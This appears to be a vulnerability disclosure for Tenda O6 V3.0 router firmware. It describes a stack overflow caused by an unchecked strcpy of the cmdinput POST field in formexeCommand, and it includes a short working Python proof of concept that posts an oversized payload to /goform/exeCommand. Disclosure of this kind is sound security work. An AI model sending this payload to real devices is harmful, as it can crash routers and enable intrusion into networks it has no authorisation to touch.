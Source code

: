## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The O6 V3.0 V1.0.0.7(2054) firmware contains a stack overflow vulnerability in the `formexeCommand` function. Specifically, the `Var` variable is assigned the value of the `cmdinput` parameter from a POST request. Since `cmdinput` is user-controlled, its value can be manipulated to exceed the allocated size of the `v3` array. This vulnerability arises from the use of the `strcpy(v3 + 16, src)` statement, which does not perform bounds checking on the input. Consequently, if the length of the user-provided `cmdinput` exceeds the storage capacity of the `v3` array, it causes a buffer overflow, leading to a potential security exploit.
![Vulnerability Function2](./20240805171010.png)



## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/exeCommand"
payload = b"ab"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```

![Vulnerability Function2](20240805163853.png)


